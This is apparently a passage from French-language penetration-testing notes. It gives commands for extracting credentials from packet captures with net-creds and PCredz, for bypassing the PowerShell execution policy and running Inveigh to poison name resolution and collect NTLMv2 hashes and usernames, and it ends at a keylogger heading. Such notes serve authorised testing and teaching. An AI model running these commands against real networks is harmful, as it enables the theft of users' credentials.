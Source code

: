 ```
python net-creds.py -p pcapfile
```

Pcredz -> https://github.com/lgandx/PCredz

```
python3 ./Pcredz -f pcapfile
```


## Sniffing Inveigh


A lancer dans contexte administrateur

https://github.com/Kevin-Robertson/Inveigh

Powershell (plus maintenue)

```powershell
Set-ExecutionPolicy Bypass -Scope Process
```

```powershell
Import-Module .\Inveigh.ps1
```

```powershell
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

C#

```powershell
.\Inveigh.exe
```

Presser esc pour entrer/sortir du mode interactif

```
HELP
```

Afficher les challenges capturés

```
GET NTLMV2UNIQUE
```

Afficher les usernames

```
GET NTLMV2USERNAMES
```


## Keylogger

Capture toutes les frappes au clavier

Keylogger Meterpreter
